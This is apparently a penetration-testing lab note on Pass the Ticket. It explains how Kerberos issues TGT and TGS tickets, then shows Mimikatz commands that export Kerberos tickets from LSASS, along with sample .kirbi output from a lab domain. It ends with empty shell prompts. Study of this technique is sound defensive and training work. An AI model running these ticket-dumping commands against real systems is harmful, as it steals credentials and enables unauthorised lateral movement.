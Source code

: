 ```yaml
---
description: >-
  ๊Using stolen Kerberos ticket to move laterally instead of an NTLM password
  hash
---
```


# Pass the Ticket (PtT)

### Kerberos Protocol

Kerberos keeps all tickets on your local system and presents each service only the specific ticket for that service

* `TGT - Ticket Granting Ticket` -> TGT permits the client to obtain additional Kerberos tickets
* `TGS - Ticket Granting Service` -> Allow services to verify the user's identity

TGT granting process

1. To request a ticket, user must authen with DC.
2. User encrypts current timestamp with password hash.
3. DC decrypts it and sends TGT.
4. Once user get's their ticket they don't have to authen with their password.

TGS granting process

1. User request TGS from Key Distribution Center (KDC) to connect to a service.
2. User presents TGT to KDC.
3. KDC grants TGS to access paticular service.

### Harvesting Kerberos Tickets from Windows

Tickets are processed and stored by the LSASS. You must communicate with LSASS and request a ticket.

* <mark style="color:red;">**non-administrative user can only get their tickets.**</mark>
* <mark style="color:red;">**local administrator can collect everything.**</mark>

**Mimikatz - Export Tickets**

```cmd-session
c:\tools> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export
```

The tickets will be stored in the current folder with the `.kirbi` extension. eg.

```cmd-session
c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi
```


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>